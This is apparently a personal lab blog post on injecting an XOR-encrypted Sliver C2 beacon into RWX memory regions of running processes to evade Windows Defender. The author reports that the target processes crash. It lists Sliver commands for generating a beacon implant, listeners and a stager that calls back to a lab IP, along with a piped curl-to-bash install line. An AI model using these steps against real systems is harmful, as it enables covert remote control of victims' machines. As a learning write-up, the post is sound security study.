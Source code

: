 +++
title = 'Injecting Shellcode Via RWX Protected Memory Regions'
date = 2025-07-10
draft = false
+++


## 1. PREFACE
So I've been doing some couples of malware academy modules and reverse engineering malwares, but i've never tried to officially bypass windows defender and inject a shellcode. So, I’ve been trying a simple defense evasion technique for windows defender by enumerating processes with a RWX Protected memory region to inject my sliver beacon combined with XOR encryption. One point to note is that, even though it bypasses windows defender antivirus, that doesn't mean that it does not leave other IOC's and to apply this in a real world scenario would require additional stealth features. In this blog, I'll talk about my successes and challenges.


>⚠️ Be ready to be disappointed...


---

## 2. SETUP

#### SETTING UP SLIVER C2 ON KALI

1. Generating beacon profile implant : `profiles new beacon --mtls 192.168.38.128 --os windows --arch amd64 --format shellcode --seconds 5 --jitter 3 win_implant`

>⚠️`--skip-symbols` disables obfuscation

2. Starting the mtls listener : `mtls`
3. Starting the stage listener : `stage-listener --url tcp://192.168.38.128:8443 --profile win_implant`
4. See you listener : `jobs`
5. Generate the stager : `generate stager --lhost 192.168.38.128 --lport 8443 --arch amd64 --format c --save /tmp`

>[!warning]
>You might encounter issues while trying to generate your stager, if you've installed sliver with this : `curl https://sliver.sh/install|sudo bash`. You might need to install it from the release binaries

#### SETTING UP TARGET WINDOWS MACHINE

1. Install Windows on a VM
2. Make sure windows defender is up to date and activated

---

## 3. Development

1. Enumerating the processes
2. If we're able to open the process, we'll have query inside it's memory to find a memory section with RWX
3. Once we find it we will decrypt and inject the shellcode inside that memory region and then start a thread starting from that section
4. We should get a reverse shell connection back to our `Slvier C2` if everything went well (sadly we don't😢)

---

## Problems encountered

- My payload kept getting injected into `SearchApp.exe` which is only used when performing searches and by looking at the process inside `System Informer` formerly known as `Process Hacker`, I could see that the process is almost always in a suspended state, unless i perform searches on the host, so i thought that was the problem

{{< image src="/images/Pasted image 20250705004129.png" alt="20250705004129" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So I tried to perform a search, so that the process would resume, but as soon as it resumed it crashed...

- I also could see that even though my shellcode was written inside the memory, it was not fully written, but only portion

{{< image src="/images/Pasted image 20250708172711.png" alt="20250708172711" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So i went in x64dbg, to in x32dbg to inspect it a little bit further (the beauty of learning reverse engineering, I still suck btw)
    1. Set a breakpoint on `WriteProcessMemory`, so the first process that has `RWX` 
    2. Go on the memory section and identify the third argument and follow in dump, execute till return and see a change happening in the dump
    3. Follow the pointer that was written in the next dump tab and you will see the shellcode

{{< image src="/images/Pasted image 20250708211454.png" alt="20250708211454" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211552.png" alt="20250708211552" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211707.png" alt="20250708211707" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- I could clearly see that my shellcode was passed fully to the `WriteProcessMemory`, but anyway by changing my code a little bit and how I was passing my shellcode the function, I was able to fix it


{{< image src="/images/poc8.png" alt="poc8" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- This did not fix the real problem, so I thought maybe I should inject in another process, maybe that would give a different result, so this is what I did, but as soon as the shellcode got injected and I created a thread to start at that newly written memory region, the program crashed...what is going on? this is not good, even though this is a lab, I was thinking in a real world scenario if you see some of your app crash, after running a program, this will immediately trigger a red alert, even though windows defender doesn't detect anything

- Maybe pausing the process, inject the shellcode and then resume, would fix the problem but, no, I got the same result

- So, I tried a bunch of different things, but always ended up at the same result, but, at least the good news is that I was able to bypass windows defender, right? We have to stay positive in this field, count them small wins...

{{< image src="/images/Pasted image 20250624141138.png" alt="20250624141138" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

---

### 3. Conclusion

To conclude, even though this gets undected by the windows defender antivirus, it still would get detected by an EDR and this angle is not stable enough. What i mean by that, is that since we're overwritting a section of memory that has the RWX Protected Memory Region, i can deduce that the app crashes because we might be overwritting a critical section of the process that is needed to make the process run smoothly. Also, if you see an app crash, this could potentially lead your malware to be discovered which is no good. This type of defense evasion is a good learning experience, but to apply this into a real world scenario would require additionnal tweaks or a different approach.